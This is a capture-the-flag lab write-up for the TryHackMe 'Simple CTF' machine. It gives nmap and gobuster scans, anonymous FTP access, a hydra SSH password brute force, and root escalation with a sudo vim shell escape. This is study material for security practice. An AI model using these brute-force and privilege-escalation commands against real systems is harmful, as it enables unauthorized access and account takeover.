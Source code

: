 # Simple CTF

IP: 10.10.121.109

## Scans

### Nmap

Initial Nmap Scan

```bash
nmap -sC -sv -oN scans/nmap.initial 10.10.121.109
```

Open Ports Found:
```
21 -- ftp
80 -- webpage
2222 -- ssh
```

OS -- Apache 2 Ubuntu, Linux

### Gobuster

```
gobuster dir -w /path/to/wordlist.txt -u http://10.10.121.109
```

Directories found:
```
/simple
/server-status -- 403 Forbidden
```

found name `mike` in robots.txt

## FTP

looking around in FTP:

```
ftp> nlist
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get
(remote-file) ForMitch.txt
(local-file) ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.00 secs (593.8072 kB/s)
```

found name `mitch` in `ForMitch.txt`


## Hydra

Bruteforcing username `mitch` with rockyou pwlist on ssh port 2222

```bash
hydra -l mitch -P wordlists/rockyou.txt ssh://10.10.121.109:2222
```

found credentials:
```
mitch:secret
```

## SSH into Machine
```bash
ssh mitch@10.10.121.109 -p 2222
```

User Flag found
```bash
ls
cat user.txt

G00d j0b, keep up!
```

new user found `sunbath`

privesc by:
```bash
sudo -l
```

and searching vim on [gtfoBins](https://gtfobins.github.io/gtfobins/vim/)

```bash
sudo vim -c ':!/bin/sh'
```

Root access and Root flag found
```
whoami
cd /root/
cat root.txt

W3ll d0n3. You made it!
```

----
[back to TryHackMe main page](thm.md)

[back to Index/Table of Contents](index.md)
